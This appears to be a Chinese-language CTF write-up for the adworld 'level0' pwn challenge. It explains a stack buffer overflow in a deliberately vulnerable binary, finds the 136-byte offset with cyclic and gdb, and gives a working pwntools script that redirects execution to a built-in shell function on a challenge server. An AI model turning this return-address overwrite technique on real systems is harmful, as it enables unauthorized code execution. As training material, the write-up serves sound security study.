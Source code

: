 
## level0

> 菜鸡了解了什么是溢出，他相信自己能得到 shell

```
[*] '/ctf/work/adworld/level0/ea3758e885904101913f7be6fff1bb2d'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

和上一题一样只开了 NX，其他保护都没开

![](https://vip1.loli.net/2019/12/27/JCHUkhD4TO83wSF.png)

程序的漏洞点是 `vulnerable_function` 函数，读取了 0x200 字节，但是 buf 只有 0x80 的位置，加上没有 Canary 保护，我们可以通过溢出修改程序的返回地址。

![](https://vip1.loli.net/2019/12/27/bMSYl8xFQyK1kpD.png)

程序自带了 `system("/bin/sh")` 函数，我们只需要将返回地址修改到这里即可，这里的地址是 `0x400596`

接下来我们确定长度，看一下布局

![](https://vip1.loli.net/2019/12/27/YSydrHFqWjczoUn.png)

![](https://vip1.loli.net/2019/12/27/glFGZNB1VkzRdLp.png)

因此长度确定为 `0x80+0x8=136`，然后传返回地址即可。

除了上面的方法，我们还可以利用 cyclic 和 gdb 来进行调试。

首先通过 `cyclic 300` 生成一长串字符，用户确定溢出位置；接着通过 `gdb -q program_name` 启动 gdb，随后使用 run 启动程序

![](https://vip1.loli.net/2019/12/27/4ZMnVw8g1hmxaLq.png)

接着将那一长串字符复制粘贴到程序中，回车

程序会崩溃，gdb 会返回当前的寄存器信息

![](https://vip1.loli.net/2019/12/27/nTKD78iQGmygpVO.png)

看到 RSP 是 `jaab` ，通过 `cyclic -l jaab` 确定长度是 136，和上面的是一样的。

![](https://vip1.loli.net/2019/12/27/KbM6STOUjhas7iW.png)

栈的结构大致如图

```python
#!/usr/bin/env python

from pwn import *

proc = './ea3758e885904101913f7be6fff1bb2d'

context.binary = proc
context.log_level = 'debug'

if args.R:
    p = remote('111.198.29.45', 40355)
else:
    p = process(proc)

callsystem = 0x400596

p.sendlineafter('World', 'a' * 136 + p64(callsystem))

```
